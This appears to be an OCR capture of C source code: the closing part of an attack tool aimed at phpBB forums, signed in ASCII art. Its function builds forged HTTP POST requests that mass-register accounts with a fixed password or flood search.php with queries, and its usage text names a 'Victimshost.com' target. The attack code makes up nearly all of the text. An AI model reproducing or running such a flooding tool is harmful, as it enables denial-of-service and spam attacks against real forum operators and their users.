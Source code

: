     void Write_In(int sock, char *Path, char *Pro_Sea, char *Host, int x)
    {
        char *str1 = (char *)malloc(4*BUFSIZ), *str2 = (char *)malloc(4*BUFSIZ);
        char *req0 = "User-Agent: Mozilla/5.0 (BeOS; U; BeOS X.6; en-US; rv:1.7.8) Gecko/20050511 Firefox/1.0.4\r\n"
                     "Accept: */*\r\n"
                     "Accept-Language: en-us\r\n"
                     "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\n"
                     "Accept encoding: gzip,deflate\r\n"
                     "Keep-Alive: 300\r\n"
                     "Proxy-Connection: keep-alive\r\n"
                     "Content-Type: application/x-www-form-urlencoded\r\n"
                     "Cache-Control: no-cache\r\n"
                     "Pragma: no-cache\r\n";
        char *Profile = "%40neosecurityteam.net&new_password=0123456&password_confirm=0123456&icq=&aim=&msn=&yim=&website=&location=&occupation=&interests=&signature=&viewemail=0&hideonline=0&notifyreply=0&notifypm=1&popup_pm=1&attachsig=1&allowbbcode=1&allowhtml=0&allowsmilies=1&language=english&style=1&timezone=0&dateformat=D+M+d%2C+Y+g%3Ai+a&mode=register&agreed=true&coppa=0&submit=Submit\r\n";
        char *Search  = "&search_terms=any&search_author=*&search_forum=-1&search_time=0&search_fields=all&search_cat=-1&sort_by=0&sort_dir=DESC&show_results=topics&return_chars=200\r\n";

        if(strcmp("profile.php", Pro_Sea) == 0) sprintf(str1, "username=NsT__%d&email=NsT__%d%s", x, x, Profile);
        else if(strcmp("search.php", Pro_Sea) == 0)
        {
                   Pro_Sea = "search.php?mode=results";
                   sprintf(str1, "search_keywords=Hack%d%s", x, Search);
        }
        else
        {
                   puts("Sorry. Try making the right choice");
                   exit(-1);
        }

        sprintf(str2, "POST %s%s HTTP/1.1\r\n"
                      "Host: %s\r\n"
                      "Referer: http://%s/\r\n%s"
                      "Content-Length: %d\r\n\r\n%s", Path, Pro_Sea, Host, Host, req0, strlen(str1), str1);

        write(sock, str2, strlen(str2));
        write(1, ".", 1);
        fflush(stdout);
    }

    char Use(char *program)
    {
        fprintf(stderr,"[*] Use: %s <path> <search.php or profile.php> <Host>\n", program);
        fprintf(stderr,"[*] Example: %s /phpBB/ profile.php Victimshost.com\n", program);
        fflush(stdout);
        exit(-1);
    }

    /*

    @@@@'''@@@@'@@@@@@@@@'@@@@@@@@@@@
    '@@@@@''@@'@@@''''''''@@''@@@''@@
    '@@'@@@@@@''@@@@@@@@@'''''@@@
    '@@'''@@@@'''''''''@@@''''@@@
    @@@@''''@@'@@@@@@@@@@''''@@@@@

    */

    /* EOF */